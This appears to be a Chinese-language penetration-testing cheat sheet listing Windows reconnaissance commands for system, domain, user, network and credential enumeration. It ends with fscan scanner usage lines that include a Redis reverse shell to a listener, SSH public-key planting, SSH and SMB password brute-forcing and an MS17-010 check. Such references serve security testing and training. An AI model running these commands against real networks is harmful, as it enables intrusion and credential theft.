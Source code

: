 信息收集 - Windows
========================================

基本命令
----------------------------------------
- 查询所有计算机名称 ``dsquery computer``
- 查看配置 ``systeminfo``
- 查看版本 ``ver``
- 进程信息 ``tasklist /svc``
- 查看所有环境变量 ``set``
- 查看计划任务 ``schtasks /QUERY /fo LIST /v``
- 查看安装驱动 ``DRIVERQUERY``
- 查看操作系统架构 ``wmic os get osarchitecture``
- 查看逻辑盘 ``wmic logicaldisk get caption``
- 查看安装的软件 ``wmic product get name,version``

域信息
----------------------------------------
- 获取当前组的计算机名 ``net view``
- 查看所有域 ``net view /domain``
- 查看域中的用户名 ``dsquery user``
- 查询域组名称 ``net group /domain``
- 查询域管理员 ``net group "Domain Admins" /domain``
- 查看域控制器 ``net group "Domain controllers"``

用户信息
----------------------------------------
- 查看用户 ``net user`` / ``whoami`` / ``whoami /all``
- 查看用户信息: ``net user <administrator>``
- 用户特权信息 ``whoami /priv``
- 查看当前权限 ``net localgroup administrators``
- 查看在线用户 ``qwinsta`` / ``query user`` / ``quser``
- 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域 ``net config Workstation``

网络信息
----------------------------------------
- 域控信息
	+ ``nltest /dclist:xx``
	+ ``Get-NetDomain``
	+ ``Get-NetDomainController``
- 网卡信息 ``ipconfig``
- ARP表 ``arp -a``
- 路由表 ``route print``
- 监听的端口 ``netstat -ano``
- 查看netbios：``nbtscan 192.168.1.17``
- 防火墙状态及规则
	+ ``netsh firewall show config``
	+ ``netsh firewall show state``
- hosts文件
- 扫描工具
	+ fscan：``https://github.com/shadow1ng/fscan``
		::
		
			fscan.exe -h 192.168.1.1/24  (默认使用全部模块)  
			fscan.exe -h 192.168.1.1/16  (B段扫描)
			fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
			fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
			fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
			fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
			fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
			fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
			fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
			fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
			fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
			fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
			fscan.exe -hf ip.txt  (以文件导入)

密码信息
----------------------------------------
+ 当前系统凭据
	- ``cmdkey /l``

其他
----------------------------------------
+ wmic
	- 提供了从命令行接口和批命令脚本执行系统管理的支持
	- 查看补丁安装情况: ``wmic qfe get Caption,Description,HotFixID,InstalledOn``
+ 日志与事件信息
	- ``wevtutil``
+ 注册表信息
	- ``reg``
